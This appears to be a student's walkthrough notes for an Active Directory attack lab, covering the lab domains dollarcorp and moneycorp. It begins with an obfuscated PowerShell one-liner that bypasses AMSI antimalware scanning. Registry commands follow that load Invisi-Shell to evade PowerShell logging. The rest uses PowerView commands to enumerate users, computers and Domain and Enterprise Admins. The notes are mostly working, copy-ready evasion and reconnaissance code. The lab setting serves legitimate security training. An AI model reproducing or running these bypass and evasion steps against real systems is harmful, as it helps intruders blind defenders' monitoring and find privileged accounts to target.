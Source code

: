 ### SUMMARY 


### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
**Task**
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.


**List informations about all users** 
```
Get-DomainUser
```

### List a specific property of all the users
```
Get-DomainUser | select -ExpandProperty samaccountname
```

### Enumerate member computers
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

### See details of the Domain Admins group
```
Get-DomainGroup -Identity "Domain Admins"
```

### Enumerate members of the Domain Admins group
```
Get-DomainGroupMember -Identity "Domain Admins"
```

### Enumerate members of the Enterprise Admins group
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

### Query the root domain as Enterprise Admins group is present only in the root of a forest
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```

